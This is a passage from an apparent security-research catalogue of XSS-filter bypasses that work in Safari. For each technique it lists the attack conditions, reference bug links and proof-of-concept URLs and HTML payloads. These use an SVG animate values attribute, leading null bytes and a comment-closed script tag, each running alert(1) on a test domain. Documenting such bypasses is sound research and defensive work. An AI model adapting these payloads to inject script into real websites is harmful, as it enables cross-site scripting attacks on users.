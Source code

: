 ### Using the SVG animation values ​​attribute (Safari only)

Conditions for attacking:

1. There is XSS that can write arbitrary tags

Reference URL:

- https://bugs.chromium.org/p/chromium/issues/detail?id=709365
- https://bugs.chromium.org/p/chromium/issues/detail?id=738017

PoCs:

https://vulnerabledoma.in/bypass/text?q=%3Csvg%20xmlns:xlink=http://www.w3.org/1999/xlink%3E%3Canimate%20xlink:href=%23x%20attributeName=%22xlink:href%22%20values=%22%26%23x3000%3Bjavascript:alert(1)%22%20/%3E%3Ca%20id=x%3E%3Crect%20width=100%20height=100%20/%3E%3C/a%3E

```html
<svg xmlns:xlink=http://www.w3.org/1999/xlink><animate xlink:href=#x attributeName="xlink:href" values="&#x3000;javascript:alert(1)" /><a id=x><rect width=100 height=100 /></a>
```

### Using multiple null characters (Safari only)

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. a null byte is printed
3. no preceding whitespace

Reference URL:

- https://twitter.com/0rbz_/status/896896095862669312]

PoCs:

https://vulnerabledoma.in/bypass/text?q=%00%00%00%00%00%00%00%3Cscript%3Ealert(1)%3C/script%3E

```html
[0x00][0x00][0x00][0x00][0x00][0x00][0x00]<script>alert(1)</script>
```

### `-->` Using comments within script tags (Safari only)

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. There is a closing tag of the script tag without a line break after it

Reference URL:

- https://bugs.chromium.org/p/chromium/issues/detail?id=753307

PoCs:

https://vulnerabledoma.in/bypass/text?type=9&q=%3Cscript%3Ealert(1)%0A--%3E

```html
<div><script>alert(1)
--></div><script src=/test.js></script>
```
